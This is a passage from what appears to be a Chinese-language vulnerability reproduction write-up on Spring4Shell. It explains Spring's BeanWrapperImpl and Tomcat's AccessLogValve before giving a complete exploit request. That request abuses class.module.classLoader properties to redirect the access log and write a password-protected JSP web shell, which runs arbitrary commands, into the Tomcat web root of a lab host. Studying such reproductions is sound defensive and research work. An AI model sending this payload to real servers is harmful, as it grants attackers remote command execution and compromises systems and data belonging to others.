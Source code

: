 ```
        System.out.println("user.name: " + userBeanWrapper.getPropertyValue("name"));
        System.out.println("user.department.name: " + userBeanWrapper.getPropertyValue("department.name"));
    }
}
```

![image-20220427180259556](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220427180259556.png)

可以看到，直接就调用了对应的方法，通过`BeanWrapperImpl`可以很方便地访问和设置Bean的属性，比直接使用`PropertyDescriptor`要简单很多

## Tomcat AccessLogValve 和 access_log

这是这次漏洞的一个关键点的地方

Tomcat的`Valve`用于处理请求和响应，通过组合了多个`Valve`的`Pipeline`，来实现按次序对请求和响应进行一系列的处理。其中`AccessLogValve`用来记录访问日志access_log。Tomcat的`server.xml`中默认配置了`AccessLogValve`，所有部署在Tomcat中的Web应用均会执行该`Valve`，内容如下：

```XML
<Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
               prefix="localhost_access_log" suffix=".txt"
               pattern="%h %l %u %t &quot;%r&quot; %s %b" />
```

下面列出配置中出现的几个重要属性： - directory：access_log文件输出目录。 - prefix：access_log文件名前缀。 - pattern：access_log文件内容格式。 - suffix：access_log文件名后缀。 - fileDateFormat：access_log文件名日期后缀，默认为`.yyyy-MM-dd`

# 漏洞复现

发送数据包

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 192.168.121.132:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```
